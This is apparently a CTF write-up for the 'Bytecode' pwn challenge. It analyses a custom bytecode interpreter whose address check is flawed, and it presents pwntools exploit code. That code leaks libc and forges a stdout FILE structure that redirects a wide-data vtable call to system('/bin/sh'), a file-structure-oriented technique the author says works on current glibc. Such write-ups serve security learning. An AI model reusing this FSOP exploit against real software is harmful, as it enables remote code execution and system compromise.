






# Bytecode

**Category**: PWN  
**Points**: 481  
**Solves**: 12  
**Author**: lmongol  

**Challenge Description**:
i made a bytecode interpret without reading [books](https://craftinginterpreters.com/), isn't programming about feeling it?

**Artifact Files** (libc and ld were both extracted from Docker image):  
[main.c](./main.c)  
[Dockerfile](./Dockerfile)  
[makefile](./makefile)

**Extracted LIBC and LD (from Dockerfile)**:
[libc.so.6](./libc.so.6)  
[ld-linux-x86-64.so.2](./ld-linux-x86-64.so.2)  

## Challenge Overview

The description seems to hint towards some custom "bytecode interpreter" whatever that can mean... Luckily enough for us the
source code of the challenge is given in the files so we can actually read through it without having to reverse first :D  

The challenge doesn't actually give us a binary but gives us source and a makefile to build it ourselves. We can look at
what protections are on directly from the makefile : 

```Makefile
SRC = main.c
NAME = bytecode
CFLAGS = -no-pie  -Wl,-z,relro,-z,now

$(NAME): $(SRC)
	gcc $(CFLAGS) $(SRC) -o $(NAME)

clean :
	rm -rf $(NAME)
```

Alright ! So we have PIE turned off but we have full relro activated. Stack canaries and NX are on by default. This is a bit helpful as we will likely have to use the fact that PIE is off in order to exploit this piece of code !

## Code Analysis

Before taking a look at the code, let's try running this bad boy ! 

  

Seems like this program takes input and "interprets" it as some form of "bytecode". We can see that it tried to interpret "q" as
some instruction because of the prompt "Instruction not found 71" (71 is hex of "q"'s ASCII code).  

Well, looks like we're gonna have to dive down the code to try to play around with these bytecodes !

### The source

The code of this program is quite large, so I will explain it bits by bits in this writeup with only the parts that ended up being important to us. If you are interested in seeing the full code behind this challenge you can check out the original [source file](./main.c)

```c
// IMPORTS ...

#define CODE_SIZE 4096
#define STACK_SIZE 4096

char stack[STACK_SIZE];
char *swap;

// ...

typedef enum INST {
	ADD,
	SUB,
	DIV,
	MUL,
	AND,			// and 0x4, 0x48
				// and two values and stores the result in $rax
	XOR,			// xor 0x19, 54
				// xors 2 values and stores the result in $rax
	OR,			// or 0x10, 48
				// or 2 values and stores the result in $rax
	PUSH,			// push 0x505
				// pushes the value to the stack
	POP,			// pop 
				// pops the first value on the stack to $rax
	PRT,			// prt 0x2f62696e2f7368
				// convert the arg to string and prints it
	PUTS,			// puts 0x69696969
				// dereferences an address then prints from it
				// dec 50
	DEC,			// decrements rax by x
	INC, 			// increments rax by x
	LEA,
	NOP,			// no operation
	HALT,
} INST;

// ...

int	main(){
	char	tmp_swap[STACK_SIZE];
	int	code_size;
	void	*addrs[2];
  
    // ... setvbuf stuff

	addrs[0] = mmap(0, CODE_SIZE, PROT_READ|PROT_WRITE,
			MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
	addrs[1] = stack;
	swap = tmp_swap;

	if (addrs[0] == NULL || addrs[1] == NULL)
		err(1, "mmap failed");

	bzero(stack, STACK_SIZE);
	bzero(tmp_swap, STACK_SIZE);
	while (true){
		printf(">> ");
		mprotect(addrs[0], CODE_SIZE, PROT_READ | PROT_WRITE);
		code_size = read(0, addrs[0], CODE_SIZE);
		if ( code_size > 1 && ((char *)addrs[0])[code_size - 1] == '\n'){
			((char *)addrs[0])[code_size - 1] = '\0';
			code_size--;
		}
		else 
			break;
		mprotect(addrs[0], CODE_SIZE, PROT_READ);
		interpret_code(code_size, addrs[0], addrs[1]);
	}
}

```


Well ! This is a looot to read through but i'll guide you through this shortened version so you can understand the bugs in the code
hopefully without difficulty.  

First of all, we can see that there is some "global" variables which will be allocated in **.bss** as uninitialized data :
- stack : char[4096]
- swap : char*

Since this program is an interpreter this is likely the "simulated stack" data and a "swap" pointer that will be used to do some shifting operations on the stack (i'll go over this later).  

A very important part of this program is the instruction set defined by this **INST** enum giving us the following instructions : 
```
    ADD = 0
	SUB = 1
	DIV = 2
	MUL = 3
	AND = 4			
	XOR = 5
	OR  = 6	
	PUSH= 7	
	POP = 8
	PRT = 9	
	PUTS= 10		
	DEC = 11
	INC = 12
	LEA = 13
	NOP = 14
	HALT= 15
```
Note that I added numbering because C enums naturally get attributed positive values growing from 0. These represent "instructions"
for our bytecode implementation. We can find each instruction's implementation in the **interpret_code** function (we'll also go over this later).

As for the main function, it does what you would expect from it:
- creates a stack buffer of the same size as the stack called "tmp_swap". The *swap* global will be set to this stack buffer.
- uses mmap to create a new memory mapping to hold the input bytecode from the user.
- defines an "*addresses* array" of void pointers containing a pointer to the code and a pointer to the stack.
- zeros all of our new memory and enter an infinite loop of prompting the user for bytecode and running it !

The loop is just using `read` to take user input and replaces the new line with a null byte before sending it to the 
very important **interpret_code** function that will actually execute our bytecode.

### Understanding the interpreter

Alright so now that we know how our input is processed and more or less how the program works, how can we generate proper bytecode
that will be interpreted correctly by the program ? Well, let's look at the **interpret_code** function :D

```c
void	interpret_code(int code_size, char *code, void *stack){
	int i = 0;
	register long long int rax asm("rax") = 0;
	while (i < code_size) {
		switch (code[i]){
			case ADD: // some safe implementation 
			case SUB: // some safe implementation 
			case MUL: // some safe implementation 
			case DIV: // some safe implementation 
			case AND: // some safe implementation 
			case XOR: // some safe implementation 
			case OR:  // some safe implementation 
			case PRT: // some safe implementation 
				i++;
				unsigned int size = unpack(code + i, sizeof(unsigned char));
				i++;
				fwrite((code + i), size, 1, stdout);
				i += size;
				break;
			case PUTS:		// puts only accepts addresses from bss
				i++;
				if ((unpack(code + i, sizeof(int)) & 0xffffff00) == 
						( (uint64_t)(stack) & 0xffffff00)
						&& (unpack(code + i, sizeof(int)) < (stack + STACK_SIZE))){
					puts((char *) unpack(code + i , sizeof(int)));
				}
				i += 4;
				break;
			case PUSH: // This is actually safe, but we will use it to write data on the stack so it is useful
				i++;
				right_shift(stack);
				int length = strlen(&code[i]);
				memcpy(stack, (&code[i]), 8);
				i += 8;
				break;
			case POP : // some safe implementation 
			case DEC : // some safe implementation 
			case INC : // some safe implementation  
			case LEA : // some safe implementation 
				i++;
				if ((unpack(code + i, sizeof(int)) & 0xffffff00) == 
						( (uint64_t)(stack) & 0xffffff00)
						&& (unpack(code + i, sizeof(int)) < (stack + STACK_SIZE))){
					char **dst = (char **) unpack(code + i , sizeof(char **));
					if ((long long) dst % 8 != 0)
						break;
					*dst = (char *) unpack(code + i + 8 , sizeof(char *));
				}
				i += 16;
				break;
			case NOP:
				i++;
				break;
			case HALT :
				exit(EXIT_SUCCESS);
			default : 
				errx(69, "Instruction not found %x", code[i]);
		}
	}
}
```

Here I removed the instructions that were very obvious and without much use (most of them just performed the operation and returned the result in *rax*). Also to avoid confusion I will now refer to the interpreter's stack as the "virtual stack"

We can see that this interpreter runs in a while loop, detecting instructions and getting their parameters if there are any, then proceeding to the next instruction. Most of these instructions are very common among insruction sets of any kind like add, and, div, etc... __But some in this set really stand out ...__

For exampls, the **PUTS** instruction takes an address on the virtual stack and calls puts on it as a string, printing some data out to the screen. This instruction applies checks if the passed address is actually from the virtual stack. However, the implementation of this check is vulnerable and we will exploit as you'll see in a minute.

Another weird instruction is **PRT** which does pretty much the same as **PUTS** but using `fwrite()` and this time printing the direct bytes given to it as arguments.

The **LEA** instruction has unexpected behaviour as instead of doing what it does for example on standard x64 architecture, it takes a virtual stack address as first argument and some value as second argument and writes said value to the given address ! giving us some arbitrary writes on the virtual stack. Unfortunately (or fortunately for me hehe), this instruction uses the **SAME** bad check as **PUTS** ! 

And finally (for the instructions we will use), **PUSH** does exactly what you would expect. It pushes 8 bytes of data onto the virtual stack by shifting the current stack 8 bytes to the right and inserting the given 8 bytes of data at the beginning of the virtual stack:  

```c
void right_shift(char *buffer) {
	memcpy(swap, buffer, STACK_SIZE);
	int starting_point = 0;

	while((starting_point + 8) < STACK_SIZE){
		memcpy(buffer + starting_point + 8 , swap + starting_point, 8 );
		starting_point += 8;
	}
	bzero(buffer, 8);
}
```
The **PUSH** instruction shifts it's data using this function and the aforementionned **swap** through this implementation.

Alright, we have some ideas of how to use this interpreter. Now just for convenience I took the time to make a small compiler in my exploit template for easier use of this bytecode language: 

```py
#!/usr/bin/env python3

from pwn import *
from enum import Enum

class OpCodes(Enum):
	ADD = 0
	SUB = 1
	DIV = 2
	MUL = 3
	AND = 4			
	XOR = 5
	OR  = 6	
	PUSH= 7	
	POP = 8
	PRT = 9	
	PUTS= 10		
	DEC = 11
	INC = 12
	LEA = 13
	NOP = 14
	HALT= 15

elf = ELF("bytecode_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
ld = ELF("./ld-linux-x86-64.so.2", checksec=False)

context.binary = elf
context.terminal = ['alacritty', '-e']

def conn():
    if args.REMOTE:
        r = remote("172.210.129.230", 1350)
    else:
        r = process([elf.path])
        if args.GDB:
            gdb.attach(r)

    return r

def compile(shellcode: str):
    instructions = shellcode.strip().split("\n")
    result = b""
    for instruction in instructions:
        instruction = instruction.strip()
        separator = instruction.find(" ")

        if separator != -1:
            parts = [instruction[:separator], instruction[separator+1:]]
        else:
            parts = [instruction]

        for opcode in OpCodes:
            if opcode.name in parts[0]:
                result += opcode.value.to_bytes(1, "little")

        if len(parts) != 2:
            continue # skip if we don't have args

        for arg in parts[1].split(","):
            arg = arg.strip()
            if "q" in arg:
                result += p64(int(arg[:-1], 16))
            elif "d" in arg:
                result += p32(int(arg[:-1], 16))
            elif "s" in arg:
                data = bytes.fromhex(arg[2:-1])
                n = len(data)%256
                result += n.to_bytes(1, "little")
                result += data
            else:
                error("Failed to compile bytecode")
                exit(-1)
    return result
     

def main():
    r = conn()

    r.interactive()


if __name__ == "__main__":
    main()
```

I won't go over how this works in deep details as it's just something I did for convenience, but isn't really necessary to solve this challenge either. This little *compile* function takes a string of instructions separated by new lines and turns them into readable bytecode following our understanding of the interpreter function in the C code of the challenge !  

Testing this little compiler out by sending `PRT 0x48656c6c6f2c20776f726c6420210as` which should make it call fwrite on "Hello, world\n" returns the following result :  



Amazing ! We can start playing around with this bytecode now :D

## Finding bugs :o

Remember how earlier I said this program has bad virtual stack address check on **PUTS** and **LEA** instructions ? Well let's see it in action !  

In the code the program verifies if the address is a virtual stack address by comparing the higher bytes of the given address with the known address of the virtual stack ( addr & 0xffffff00 == stack & 0xffffff00 ). The problem with this approach is that not only does it make you unable to access most of the 4096 bytes long virtual stack but it also makes the user able to interact with memory that is slightly before the virtual stack...

But what data can we interact with exactly ? We can answer that with a quick debug run :D

  

So we can see the stack is at address 0x404060 in memory. Remember that this address is constant as PIE is not activated on this binary ! Now, even if the stack is located at address 0x4040**60**, the addresses from 0x404000 to 0x404060 will pass the check from the **PUTS** and **LEA** instructions.  

Let's see what data these addresses hold :

  

This is GREAT NEWS for our exploit for the following reasons:
- **PUTS** effectively gives us arbitary read over these addresses, giving us a libc leak
- **LEA** effectively gives us arbitrary write over these addresses, meaning we can redirect any use of this stdout pointer to point to our own data !

As little as this sound, this is actually enough for us to gain arbitrary code execution over this binary and pop a shell.
Let's make a little exploit plan and I will explain the idea along with it.

### Exploit plan

- Use **PUTS** to leak the address of **stdout** and calculate the libc base from that leak
- Build our own custom *_IO_file_plus* struct on the virtual stack using a chain of push instructions
- Overwrite the **stdout** pointer using **LEA** to point to our structure on the virtual stack
- Use **PRT** to trigger a call to `fwrite()` on stdout, which we will redirect to `system("/bin/sh")` through
careful crafting of our fake file structure.

## Exploitation 

I'm sure after these long and boring explanations you cannot wait to start exploiting this binary ! (me too)

Following our exploit plan, let's make the program call **PUTS** on address 0x404020 which, as we saw earlier, should contain a pointer to libc's stdout file structure. This will give us our much needed libc leak for the rest of this exploit !

```py
def main():
    r = conn()

    bytecode = compile("""
    PUTS 0x404020d
    """)

    r.sendlineafter(b'>> ', bytecode)
    stdout = unpack(r.recvline().strip().ljust(8, b'\x00'))
    libc.address = stdout - libc.sym._IO_2_1_stdout_

    info("stdout@GLIBC : " + hex(stdout))
    info("libc base : " + hex(libc.address))

	r.interactive()
```

Running this code, we get a successful libc leak : 



Great start :D. Now for the tricky part ! As I mentionned before we are able to modify the stdout pointer at 0x404020 to replace it with an address pointing to data **we have control of**. This means that instead of calling `fwrite()` on the standard **stdout** stream from libc, the program will instead try to use our own data as a file stream !  

This technique of exploitation has been referenced with many names but the most common are **FSOP** *(File Structure Oriented Programming)* or **File Structure Exploitation** more generally. As in my other writeups, I won't go over the deep details of how and why this technique works (otherwise this writeup is gonna be long enough to get published as a novel) but I will try my best to make it not sound like absolute dark magic :)

```py
	# ...

	info("Crafting File Struct to overwrite stdout")

    wide_data = elf.sym.stack  # we'll store the stream on the fake stack
    stream = elf.sym.stack + 0xe8

    fp = FileStructure()
    fp._lock = libc.sym.__free_hook # since hooks are deprecated this poitns to 0
    fp.flags = unpack(b" /bin/sh")
    fp._IO_read_ptr = 0
    fp.vtable = libc.sym._IO_wfile_jumps - 0x20
    fp._wide_data = wide_data

	wide_data_bytes = flat({
        0x68 : [ libc.sym.system ],
        0xe0 : [ wide_data ]
    }, filler=b'\x00')

    total_data = (wide_data_bytes + bytes(fp))[::-1] # we flip the data to insert on stack

	# ...
```

This is the file structure I came up with using pwntools embeded FileStructure utility to generate our own *_IO_file_plus* file struct. Since we have a lot of space available on the virtual stack I decided to not even bother making overlapping structs with the *_IO_wide_data* struct and just decided to place it before the actual file structure as we can see in the **wide_data** and **stream** variables defined before the construction of the file structure itself.  

What we are trying to achieve here is some form of *vtable hijacking*. But since libc actually does a check on the address we provide as a vtable for our file streams we are limited to using functions that are contained in the "vtable section" of libc's data. Luckily this vtable check doesn't exist on the *_IO_wide_data* struct and it's vtable. This is why here I modified the vtable's address so that instead of calling *_IO_file_xsputn* (the standard function to write data to a stream), it will call *_IO_wfile_overflow*.

This *_IO_wfile_overflow* function will then try to read the vtable that we provided for our fake *_IO_wide_data* struct and it'll try to fetch a function called *_IO_doallocbuf*. Since no checks are performed on the wide_data vtable, I replaced the address where *_IO_doallocbuf* should be found in the vtable with a pointer to libc's **system** function. Therefore, the program will call **system** thinking it's calling *_IO_doallocbuf* and it'll pass a pointer to the original file stream as parameter. This is why I placed a "/bin/sh" string at the start of our struct.

After doing all of this chains of calls, the program will end up calling `system("/bin/sh")` and popping a shell to us. This entire chain of event can be triggered by doing a single call to `fwrite()` on our stream or any function that issues a call to fwrite using the **stdout** stream like `printf()` or `puts()`.  

If you are new to this concept and didn't understand anything said in these last paragraphs : Don't worry. There's a lot of resources out there to practice these techniques and, if you are interested in learning these techniques, I highly recommend checking out [pwn.college](https://pwn.college). It has overall great courses and full section on File Structure exploitation.

Now that the complicated explanations are over, let's load all of this data on the virtual stack using the push instruction. Remember, **PUSH** takes 8 bytes at a time and we will have to insert our file stream's data backwards so that the stack lays all the bytes in the right order for libc to consider it a valid stream (and generally for our exploit to work).

```py
	# ...

	shellcode = ""
    for i in range(0, len(total_data), 8):
        block = total_data[i:i+8]
		# pwntools already does packing for us so we don't want to swap endianness again, therefore we use big endian
        shellcode += "PUSH 0x%xq\n" % unpack(block, endianness="big")

	# ...
```

and finally we can add our **LEA** instruction to replace the **stdout** pointer to our own fake file structure and trigger our exploit by using **PRT**. (Note that you don't actually need to call **PRT** as the printf function is called after execution to prompt the user for more bytecode and that by itself will trigger our payload. I just prefer calling **PRT** as it is more explicit for our method).

We can do this with the following code : 

```py
	# ...

	shellcode += "LEA 0x404020q, 0x%xq\n" % stream # overwrite stdout on got with our stack
    shellcode += "PRT 0x41414141s"

    info("======== FINAL BYTECODE =========")
    info(shellcode)
    info("=================================")

    r.sendlineafter(b'>> ', compile(shellcode))

    r.interactive()	
```

And that was the last step of our exploit plan ! Let's check if everything worked...



And surely enough, we get a shell and a flag :D

**Flag :** AKASEC{h4lF4Zz_8y7ec0De5_h4lF4zZ_f50P}

The full final solve script is available [here](./solve.py).

## Reflections

Overall, this was an amazing challenge. I loved the complexity added by the bytecode interpreter and the whole idea of finding bugs
in a custom made instruction set was very exciting to me. I also really like the fact that this exploit feels very "realistic" in some way as it is a relatively "small bug" with a big impact on the program. This exploit also works on the latest libc versions which just adds to the satisfaction of exploiting them in my opinion :)

Great job by the organizing team and big thanks to lmongol for this chall !

[Back to home](../../README.md)
